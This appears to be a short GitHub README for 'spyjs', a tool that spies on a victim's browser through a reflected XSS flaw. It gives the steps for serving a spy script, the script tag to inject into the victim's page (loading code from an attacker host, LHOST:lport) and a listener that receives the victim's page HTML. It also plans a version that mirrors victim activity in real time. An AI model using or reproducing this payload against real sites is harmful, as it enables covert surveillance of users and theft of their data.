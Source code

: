 # spyjs
Simple js sample to spy on browser, when reflacted xss found


Start server to serve js
```bash
python3 -m http.server lport
```

Do on victim
```js
 <script src="http://LHOST:lport/spy.js"></script>
```

start listener
```bash
python3 listen.py 
```

# when triggered

![Screenshot](/imgs/callbk.png)

![Screenshot](/imgs/recv.png)

# Next version ?
For future version (may be) i would like to add little improvemnt and make it simulate victims web activity in real time mirrored, instade of receiving raw html
went to simulate it.





